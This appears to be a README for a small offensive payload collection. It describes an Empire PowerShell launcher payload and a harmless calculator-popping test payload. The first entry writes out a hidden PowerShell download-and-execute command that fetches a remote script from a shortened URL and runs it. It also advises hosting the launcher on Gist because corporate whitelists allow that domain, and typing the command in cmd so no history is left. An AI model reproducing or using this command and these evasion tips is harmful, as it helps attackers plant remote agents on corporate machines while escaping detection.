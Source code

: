 # PAYLOADS #

- [win]_empire-PS.txt

This Payload will execute an Empire Powershell launcher, which usually I host on Gist and then use google shortener to shorten the URL.
Most corporate environments are whitelisting both gist.github.com and google, so it is easy to deploy an agent in this way. (of course this payload will leave the command `powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')"` into the cmd history. But you just need to execute it in a cmd to avoid it (no history, but takes more time to type).

- [win]_pop-calc.txt

Will pop-up the classic calculator

- More to come...